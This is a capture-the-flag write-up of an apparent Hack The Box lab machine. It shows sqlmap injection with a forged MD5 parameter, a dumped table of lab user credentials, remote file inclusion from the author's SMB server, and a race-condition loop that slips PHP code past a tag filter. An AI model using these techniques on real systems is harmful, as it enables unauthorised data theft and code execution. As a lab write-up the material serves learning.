 <!-- 6/100 -->

# NMAP
```bash
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: OS Tidy Inc.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

# Enumeration

## WEB

![image](https://user-images.githubusercontent.com/68326057/120888743-aa618f80-c617-11eb-8f49-a5972146bc3e.png)

![image](https://user-images.githubusercontent.com/68326057/120888770-ce24d580-c617-11eb-8bea-7b17c4a072f2.png)


USERS:-
```bash
dustin
daksh
anna
wafer
```

Dir Found
```bash
/products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b
```

![image](https://user-images.githubusercontent.com/68326057/120888945-910d1300-c618-11eb-841f-5944e9dd5810.png)

![image](https://user-images.githubusercontent.com/68326057/120889040-ff51d580-c618-11eb-8225-d2eaff9b8b97.png)


Login Portal

![image](https://user-images.githubusercontent.com/68326057/120889053-0d9ff180-c619-11eb-8fc0-228d357def7f.png)

/products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b

I tested the 'h' parameter hash.

![image](https://user-images.githubusercontent.com/68326057/120889178-8d2dc080-c619-11eb-8f01-dc67f01939d9.png)

I used sqlmap to test it.

![image](https://user-images.githubusercontent.com/68326057/120889337-34125c80-c61a-11eb-9edf-3ba27e539882.png)

![image](https://user-images.githubusercontent.com/68326057/120889791-6fae2600-c61c-11eb-998c-0681ff2a6f4c.png)

Everytime I test another table other than licenses then 403 error occours.

![image](https://user-images.githubusercontent.com/68326057/120890022-de3fb380-c61d-11eb-8e98-baef856bc2b2.png)

![image](https://user-images.githubusercontent.com/68326057/120890730-42fd0d00-c622-11eb-8370-6d24837b4f78.png)

![image](https://user-images.githubusercontent.com/68326057/120891417-2f53a580-c626-11eb-88c4-aa7bb83baaad.png)

```bash
sqlmap -u "http://10.10.10.231/products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b" --eval="import hashlib ; h=hashlib.md5(('hie0shah6ooNoim'+order).encode('utf-8')).hexdigest()"  --batch --dump 
```

```bash

+----+------------------------------+----------------------------------------------+----------------------+
| id | login                        | password                                     | customer_name        |
+----+------------------------------+----------------------------------------------+----------------------+
| 1  | vikki.solomon@throwaway.mail | 7c6a180b36896a0a8c02787eeafb0e4c (password1) | Vikki Solomon        |
| 2  | nstone@trashbin.mail         | 6cb75f652a9b52798eb6cf2201057c73 (password2) | Neave Stone          |
| 3  | bmceachern7@discovery.moc    | e10adc3949ba59abbe56e057f20f883e (123456)    | Bertie McEachern     |
| 4  | jkleiser8@google.com.xy      | 827ccb0eea8a706c4c34a16891f84e7b (12345)     | Jordana Kleiser      |
| 5  | mchasemore9@sitemeter.moc    | 25f9e794323b453885f5181f1b624d0b (123456789) | Mariellen Chasemore  |
| 6  | gdornina@marriott.moc        | 5f4dcc3b5aa765d61d8327deb882cf99 (password)  | Gwyneth Dornin       |
| 7  | itootellb@forbes.moc         | f25a2fc72690b780b2a14e140ef6a9e0 (iloveyou)  | Israel Tootell       |
| 8  | kmanghamc@state.tx.su        | 8afa847f50a716e64932d995c8e7435a (princess)  | Karon Mangham        |
| 9  | jblinded@bing.moc            | fcea920f7412b5da7be0cf42b8c93759 (1234567)   | Janifer Blinde       |
| 10 | llenchenkoe@macromedia.moc   | f806fc5a2a0d5ba2471600758452799c (rockyou)   | Laurens Lenchenko    |
| 11 | aaustinf@booking.moc         | 25d55ad283aa400af464c76d713c07ad (12345678)  | Andreana Austin      |
| 12 | afeldmesserg@ameblo.pj       | e99a18c428cb38d5f260853678922e03 (abc123)    | Arnold Feldmesser    |
| 13 | ahuntarh@seattletimes.moc    | fc63f87c08d505264caba37514cd0cfd (nicole)    | Adella Huntar        |
| 14 | talelsandrovichi@tamu.ude    | aa47f8215c6f30a0dcdb2a36a9f4168e (daniel)    | Trudi Alelsandrovich |
| 15 | ishayj@dmoz.gro              | 67881381dbc68d4761230131ae0008f7 (babygirl)  | Ivy Shay             |
| 16 | acallabyk@un.gro             | d0763edaa9d9bd2a9516280e9044d885 (monkey)    | Alys Callaby         |
| 17 | daeryl@about.you             | 061fba5bdfc076bb7362616668de87c8 (lovely)    | Dorena Aery          |
| 18 | aalekseicikm@skyrock.moc     | aae039d6aa239cfc121357a825210fa3 (jessica)   | Amble Alekseicik     |
| 19 | lginmann@lycos.moc           | c33367701511b4f6020ec61ded352059 (654321)    | Lin Ginman           |
| 20 | lgiorioo@ow.lic              | 0acf4539a14b3aa27deeb4cbdf6e989f (michael)   | Letty Giorio         |
| 21 | lbyshp@wired.moc             | adff44c5102fca279fce7559abf66fee (ashley)    | Lazarus Bysh         |
| 22 | bklewerq@yelp.moc            | d8578edf8458ce06fbc5bb76a58c5ca4 (qwerty)    | Bud Klewer           |
| 23 | wstrettellr@senate.gov       | 96e79218965eb72c92a549dd5a330112 (111111)    | Woodrow Strettell    |
| 24 | lodorans@kickstarter.moc     | edbd0effac3fcc98e725920a512881e0 (iloveu)    | Lila O Doran         |
| 25 | bpfeffelt@artisteer.moc      | 670b14728ad9902aecba32e22fa4f6bd (000000)    | Bibbie Pfeffel       |
| 26 | lgrimsdellu@abc.net.uvw      | 2345f10bb948c5665ef91f6773b3e455 (michelle)  | Luce Grimsdell       |
| 27 | lpealingv@goo.goo            | f78f2477e949bee2d12a2c540fb6084f (tigger)    | Lyle Pealing         |
| 28 | krussenw@mit.ude             | 0571749e2ac330a7455809c6b0e7af90 (sunshine)  | Kimmy Russen         |
| 29 | meastmondx@businessweek.moc  | c378985d629e99a4e86213db0cd5e70d (chocolate) | Meg Eastmond         |
+----+------------------------------+----------------------------------------------+----------------------+
```

Login in licenses with any of these:-

![image](https://user-images.githubusercontent.com/68326057/120894668-4b137780-c637-11eb-8500-ee50bf8e2c01.png)

Again some kind of hash

I created my hash
```bash
python3 -c "import hashlib ; h=hashlib.md5(('hie0shah6ooNoim'+'test.php').encode('utf-8')).hexdigest();print(h)"
989ff42873929244399f8c31da17ffd9
```

--> view-source:http://10.10.10.231/licenses/licenses.php?theme=test.php&h=989ff42873929244399f8c31da17ffd9

![image](https://user-images.githubusercontent.com/68326057/120895085-0ee11680-c639-11eb-8304-57d8bf4e52bd.png)


```bash
<!-- [2] file_get_contents(test.php/header.inc): failed to open stream: No such file or directory
On line 35 in file C:\inetpub\wwwroot\functions.php
 30 |  
 31 | // Following function securely includes a file. Whenever we 
 32 | // will encounter a PHP tag we will just bail out here. 
 33 | function secure_include($file) { 
 34 |   if (strpos(file_get_contents($file),'<?') === false) {                <<<<< Error encountered in this line.
 35 |     include($file); 
 36 |   } else { 
 37 |     http_response_code(403); 
 38 |     die('Forbidden - Tampering attempt detected.'); 
 39 |   } 
 40 | } 
// -->
<!-- [2] include(test.php/header.inc): failed to open stream: No such file or directory
On line 36 in file C:\inetpub\wwwroot\functions.php
 31 | // Following function securely includes a file. Whenever we 
 32 | // will encounter a PHP tag we will just bail out here. 
 33 | function secure_include($file) { 
 34 |   if (strpos(file_get_contents($file),'<?') === false) { 
 35 |     include($file);                <<<<< Error encountered in this line.
 36 |   } else { 
 37 |     http_response_code(403); 
 38 |     die('Forbidden - Tampering attempt detected.'); 
 39 |   } 
 40 | } 
 41 |  
// -->
<!-- [2] include(): Failed opening 'test.php/header.inc' for inclusion (include_path='.;C:\php\pear')
On line 36 in file C:\inetpub\wwwroot\functions.php
 31 | // Following function securely includes a file. Whenever we 
 32 | // will encounter a PHP tag we will just bail out here. 
 33 | function secure_include($file) { 
 34 |   if (strpos(file_get_contents($file),'<?') === false) { 
 35 |     include($file);                <<<<< Error encountered in this line.
 36 |   } else { 
 37 |     http_response_code(403); 
 38 |     die('Forbidden - Tampering attempt detected.'); 
 39 |   } 
 40 | } 
 41 |  
// -->
```

So we Can use RFI here


--> view-source:http://10.10.10.231/licenses/licenses.php?theme=http://10.10.14.54:8000/test.php&h=e2c392ed24821be91164dbc446d4d623


![image](https://user-images.githubusercontent.com/68326057/120895528-f8d45580-c63a-11eb-9aed-645a0d8a2f30.png)

![image](https://user-images.githubusercontent.com/68326057/120895535-01c52700-c63b-11eb-8a4d-7c13af0960d2.png)

I created a directory test.php

![image](https://user-images.githubusercontent.com/68326057/120895662-b101fe00-c63b-11eb-87b9-1a5fa78d6822.png)

![image](https://user-images.githubusercontent.com/68326057/120895672-b8290c00-c63b-11eb-9cfd-957bfb44c198.png)

--> view-source:http://10.10.10.231/licenses/licenses.php?theme=//10.10.14.54/test&h=d7c35c7414455d834b6ad94dba025db0

I started my smb server:-

```bash
sudo python3 /opt/impacket/examples/smbserver.py -ip 10.10.14.54 -smb2support evil .
```

![image](https://user-images.githubusercontent.com/68326057/120898704-a0f11b00-c649-11eb-87ab-073ca4da2709.png)

![image](https://user-images.githubusercontent.com/68326057/120899473-8751d280-c64d-11eb-988c-f9f6c7d101ef.png)

```bash
web:charlotte123!
```

```bash
<?php

phpinfo();

?>
```

![image](https://user-images.githubusercontent.com/68326057/120899699-9e44f480-c64e-11eb-8f00-8dc248c14cf9.png)

So we have to make a script , when it open our file there is normal content and it put php code soon after that.

## Race Condition

```bash
while true;

do echo "testing" > header.inc;
echo "<?php phpinfo(); ?>" > header.inc;
done;
```

--> http://10.10.10.231/licenses/licenses.php?theme=//10.10.14.54/evil&h=2f8c7045679a70dd46df466048eca782

![image](https://user-images.githubusercontent.com/68326057/120900250-80c55a00-c651-11eb-90ce-0262f0bd827d.png)

;_; finally




